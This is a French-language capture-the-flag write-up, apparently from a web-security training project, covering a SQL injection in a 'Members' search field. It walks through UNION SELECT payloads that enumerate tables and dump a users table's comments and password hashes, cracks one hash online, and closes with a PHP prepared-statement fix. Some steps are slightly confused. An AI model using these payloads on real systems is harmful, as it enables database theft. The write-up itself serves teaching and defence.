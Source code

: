 ### Comment la faille a été trouvée:

1. De retour sur la page d'accueil, on clique sur "Members". On tombe sur une barre de recherche.
2. On écrit "'" dans la barre de recherche puis valide. On obtient ce message d'erreur:
*"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1"*
3. Cela nous indique que l’input n’est pas filtré.
On va essayer de recuperer la tag avec l'injection UNION. Pour cela il faut d'abord connaitre le nombre de
colonnes totales. 

### Comment la faille a été exploitée:

4. Nous allons procéder avec le  payload "ORDER BY".
Nous commencons donc par ""
J'obtiens : *"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\' ORDER BY 1--' at line 1"*
5. Ça signifie que l’apostrophe ' que l'on a ajouté n’est pas correctement "fermée".
La requête attendue ressemble probablement à *"SELECT * FROM membres WHERE id = '$input';"*
Et nous tentons cette approche *"SELECT * FROM membres WHERE id = '' ORDER BY 1--';"*.
Il y a une apostrophe de trop.
6. On ré-injecte *"' ORDER BY 1 -- -"*. Ici *"-- -"*, est utilisé pour mettre en commentaire tout ce qui pourrait suivre la commande SQL.
On obtient cette erreur *"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\' ORDER BY 1 -- -' at line 1"*. Cela nous dit que le serveur échappe automatiquement les apostrophes ' en les remplaçant par \', ce qui bloque l’injection classique.

7. Maintenant ca fonctionne (cf. img *"1_ere_injection_reussie"*).
Nous répétons cette étape jusqu'à *"1 ORDER BY 3 -- -"*. On obtient cette erreur: *"Unknown column '3' in 'order clause'"*

8. Nous avons donc un tableau à 2 colonnes. Nous allons maintenant procéder à une requête UNION pour récupérer les
infos du tableau : *"1 UNION SELECT 1,2 -- -"* (cf. img *"2_eme_injection_reussie"*)
On sait maintenant que la conne 1=First Name et la colonne 2=Surname

9. Maintenant on va essayer d'afficher le nom des tables a travers Firstname:
*"1 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema = database() -- -"*
(cf. img *"3_eme_injection_reussie"*)

10. Donc il y a une table nommée *"users"* dans la base.
On va chercher a afficher les differentes colonnes dans la table *"Users"* avec:
*"1 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name = CHAR(117,115,101,114,115) -- -"*
On utilise *"CHAR(117,115,101,114,115)"* (=user) car sinon on recoit une erreur. "\'" n'est pas bien interprété si
écrit en brut.

11. On découvre toutes les colonnes de la table users (cf. img *"4_eme_injection_reussie"*).
*Colonnes: user_id, first_name, last_name, town, country, planet, Commentaire, countersign.*

11. On ne voit pas de colonne explicitement appelée flag, mais:
Dans les CTFs pédagogiques, le flag est souvent caché dans une colonne “innocente”, comme : *comment, description, message, ou ici → Commentaire*
Pour afficher les données de la colonne: *"1 UNION SELECT Commentaire, 2 FROM users -- -"*

12. On obtient la liste des données associées à *"Commentaire"* (cf. img *"5_eme_injection_reussie"*)
On peut lire pour le dernier élément: *"Decrypt this password -> then lower all the char. Sh256 on it and it's good"*

13. On peut obtenir le password mentionné dans la colonne countersign (synonyme de "mot de passe").
On fait: *"1 UNION SELECT countersign, 2 FROM users -- -"*
On obtient pour le même index de l'indice: 5ff9d0165b4f92b14994e5c685cdce28 (cf. img *"6_eme_injection_reussie"*)

14. On met le hash dans:
https://crackstation.net/ (cf. img *"7"*)
On obtient le password en brut: *"FortyTwo"* que l'on met en minuscule => *"fortytwo"*.

15. Et enfin on aplique le hachage Sh256 via https://emn178.github.io/online-tools/sha256.html
Ce qui nous donne le flag ! (cf. img *"8"*)

### Comment la faille peut être corrigée:

16. Problème: Aucun parsing n'est fait sur l'input utilisateur.
Ne plus faire une phrase complète en collant les morceaux (commande + input utilisateur).

Mais d'abord envoyer la commande de base: *"SELECT * FROM users WHERE id = ?"*
Puis ensuite remplace ? par la valeur transmise (= plus considere comme un bout de commande), 

En **php** ca se traduirait par:
$input = "1 OR 1=1";
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?"); // commande de base
$stmt->execute([$input]); // input utilisateur